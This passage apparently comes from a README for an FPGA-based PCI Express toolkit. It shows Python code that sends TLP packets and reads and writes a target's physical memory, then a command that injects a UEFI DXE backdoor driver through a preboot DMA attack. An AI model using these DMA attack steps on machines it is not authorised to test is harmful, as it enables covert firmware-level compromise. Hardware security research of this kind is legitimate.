```python
```

Working with TLPs using more convenient high level abstractions:

```python
# MRd TLP request which reads 1 dword of memory at address 0x1000
tlp_tx = dev.PacketMRd64(dev.bus_id, 0x1000, 4)

# send TLP
dev.write(tlp_tx)

# receive root complex reply
tlp_rx = dev.read()

# check for CplD TLP
assert isinstance(tlp_rx, dev.PacketCplD)

# print readed dword
print('%.8x' % tlp_rx.data[0])
```

Accessing physical memory:

```python
# write bytes to memory
dev.mem_write(0x1000, '\xAA' * 0x10)

# write single qword/dword/word/byte to memory
dev.mem_write_8(0x1000, 0)
dev.mem_write_4(0x1000, 0)
dev.mem_write_2(0x1000, 0)
dev.mem_write_1(0x1000, 0)

# read bytes from memory
print(repr(dev.mem_read(0x1000, 0x10)))

# read single qword/dword/word/byte from memory
print('%.16x' % dev.mem_read_8(0x1000))
print('%.8x' % dev.mem_read_4(0x1000))
print('%.4x' % dev.mem_read_2(0x1000))
print('%.2x' % dev.mem_read_1(0x1000))
```


## Practical attacks

Python program `uefi_backdoor_simple.py` injects dummy UEFI DXE driver located in `payloads/DmaBackdoorSimple` into the target using preboot DMA attack. It's usage:

1) Boot the MicroBlaze and connect SP605 to PCI-E port of target computer and Ethernet network. 

2) Run the following command: 

```
$ ./uefi_backdoor_simple.py payloads/DmaBackdoorSimple/DmaBackdoorSimple_X64.efi
```
